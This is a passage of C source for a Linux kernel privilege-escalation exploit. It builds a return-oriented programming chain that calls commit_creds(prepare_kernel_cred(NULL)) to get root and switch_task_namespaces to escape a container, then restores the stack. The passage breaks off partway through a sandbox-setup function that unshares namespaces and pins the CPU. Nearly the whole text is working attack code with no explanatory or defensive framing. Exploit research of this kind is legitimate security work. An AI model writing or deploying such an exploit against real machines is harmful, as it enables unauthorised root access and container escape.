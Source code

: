 ```c
  *rop++ = 0xDEADBEEF;      // RBP
  *rop++ = kbase_addr + MOV_QWORD_PTR_R12_RBX_POP_RBX_POP_R12_POP_RBP_RET;      // mov qword ptr [r12], rbx; pop rbx; pop r12; pop r13; pop rbp; ret;
  *rop++ = 0xDEADBEEF; // RBX
  *rop++ = 0xDEADBEEF; // R12
  *rop++ = 0xDEADBEEF; // R13
  *rop++ = 0xDEADBEEF; // RBP

  // commit_creds(prepare_kernel_cred(NULL))
  *rop++ = kbase_addr + POP_RDI_RET;                                            // pop rdi; ret;
  *rop++ = 0; // RDI
  *rop++ = kbase_addr + PREPARE_KERNEL_CRED;
  *rop++ = kbase_addr + POP_RCX_RET;                                            // pop rcx; ret;
  *rop++ = 4; // RCX
  *rop++ = kbase_addr + CMP_RCX_4_JNE_POP_RBP_RET;                              // cmp rcx, 4; jne 0x274579; pop rbp; ret; 
  *rop++ = 0xDEADBEEF; // RBP
  *rop++ = kbase_addr + MOV_RDI_RAX_JNE_XOR_EAX_EAX_RET;                        // mov rdi, rax; jne 0x788d41; xor eax, eax; ret;
  *rop++ = kbase_addr + COMMIT_CREDS;

  // switch_task_namespaces(find_task_by_vpid(1), init_nsproxy)                 This step can be deleted. Not important.
  *rop++ = kbase_addr + POP_RDI_RET;                                            // pop rdi; ret;
  *rop++ = 1; // RDI
  *rop++ = kbase_addr + FIND_TASK_BY_VPID;                                      // find_task_by_vpid
  *rop++ = kbase_addr + POP_RCX_RET;                                            // pop rcx; ret;
  *rop++ = 4; // RCX
  *rop++ = kbase_addr + CMP_RCX_4_JNE_POP_RBP_RET;                              // cmp rcx, 4; jne 0x274579; pop rbp; ret; 
  *rop++ = 0xDEADBEEF; // RBP
  *rop++ = kbase_addr + MOV_RDI_RAX_JNE_XOR_EAX_EAX_RET;                        // mov rdi, rax; jne 0x788d41; xor eax, eax; ret;
  *rop++ = kbase_addr + POP_RSI_RET;                                            // pop rsi; ret;
  *rop++ = kbase_addr + INIT_NSPROXY; // RSI                                    // init_nsproxy
  *rop++ = kbase_addr + SWITCH_TASK_NAMESPACES;                                 // switch_task_namespaces

  // Load RBP from scratchpad_addr and resume execution.
  *rop++ = kbase_addr + POP_RBP_RET;                                            // pop rbp; ret;
  *rop++ = scratchpad_addr - 0xA; // RBP
  *rop++ = kbase_addr + PUSH_QWORD_PTR_RBP_A_POP_RBP_RET;                       // push qword ptr [rbp + 0xa]; pop rbp; ret;
  *rop++ = kbase_addr + MOV_RSP_RBP_POP_RBP_RET;                                // mov rsp, rbp; pop rbp; ret;
}

int setup_sandbox(void) {
  if (unshare(CLONE_NEWUSER) < 0) {
    perror("[-] unshare(CLONE_NEWUSER)");
    return -1;
  }
  if (unshare(CLONE_NEWNET) < 0) {
    perror("[-] unshare(CLONE_NEWNET)");
    return -1;
  }

  cpu_set_t set;
  CPU_ZERO(&set);
  CPU_SET(0, &set);
  if (sched_setaffinity(getpid(), sizeof(set), &set) < 0) {
    perror("[-] sched_setaffinity");
```